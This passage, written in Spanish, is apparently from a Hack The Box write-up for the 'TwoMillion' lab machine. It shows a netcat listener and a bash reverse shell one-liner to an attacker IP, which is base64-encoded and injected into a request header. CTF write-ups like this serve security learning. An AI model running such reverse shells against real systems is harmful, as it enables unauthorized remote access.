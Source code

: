 ![](/assets/images/htb-writeup-twoMillion/hold2.png)

Pues ha funcionado, ahora iniciemos Netcat para ponernos en escucha en un puerto y ver si podemos obtener una shell.

```
nc -lvp 3333
```
Podemos obtener una shell con lo siguiente 

```
bash -i >& /dev/tcp/10.10.16.14/3333 0>&1
```
Lo codificamos en base64 y lo añadimos a la cadena del header


![](/assets/images/htb-writeup-twoMillion/hold4.png)
